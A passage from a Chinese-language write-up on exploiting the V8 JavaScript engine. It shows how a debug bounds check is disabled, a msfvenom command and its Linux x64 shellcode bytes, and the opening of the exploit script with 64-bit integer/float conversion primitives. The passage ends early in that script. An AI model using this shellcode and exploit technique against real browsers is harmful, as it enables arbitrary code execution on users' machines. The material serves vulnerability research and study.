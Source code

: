 ```
```

需要注意的是，在读取`WasmExportedFunctionDataAddr`时会触发 debug 的越界检查：

```
// v8/src/code-stub-assembler.cc
// in CodeStubAssembler::FixedArrayBoundsCheck
CSA_CHECK(this, UintPtrLessThan(effective_index,
                                  LoadAndUntagFixedArrayBaseLength(array)));
```

注释掉再重新编译即可。

#### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="d.%20shellcode"></a>d. shellcode

最后我们只要将 shellcode 写入该 RWX 地址处并调用 Wasm JSFunction 即可成功执行 shellcode。

使用 msfvenom 生成满足以下条件的 shellcode:
<li>payload为 `linux x64`
</li>
- 格式为 C语言
<li>命令为`DISPLAY=:0 gnome-calculator`
</li>
```
msfvenom -p linux/x64/exec CMD='DISPLAY=:0 gnome-calculator' -f c
```

输出如下：

```
Payload size: 67 bytes
Final size of c file: 307 bytes
unsigned char buf[] = 
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53"
"\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x1c\x00"
"\x00\x00\x44\x49\x53\x50\x4c\x41\x59\x3d\x3a\x30\x20\x67\x6e"
"\x6f\x6d\x65\x2d\x63\x61\x6c\x63\x75\x6c\x61\x74\x6f\x72\x00"
"\x56\x57\x48\x89\xe6\x0f\x05";
```

#### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="e.%20exploit"></a>e. exploit
<li>结合上面的内容，release 版本 v8 的 exp 如下：
<pre><code class="lang-js hljs javascript">function log(msg)
`{`
    console.log(msg);
    // var elem = document.getElementById("#log");
    // elem.innerText += '[+] ' + msg + '\n';
`}`

/******* -- 64位整数 与 64位浮点数相互转换的原语 -- *******/

var transformBuffer = new ArrayBuffer(8);
var bigIntArray = new BigInt64Array(transformBuffer);
var floatArray = new Float64Array(transformBuffer);
function Int64ToFloat64(int)
`{`
    bigIntArray[0] = BigInt(int);
    return floatArray[0];
`}`
function Float64ToInt64(float)
`{`
    floatArray[0] = float;
    return bigIntArray[0];
`}`
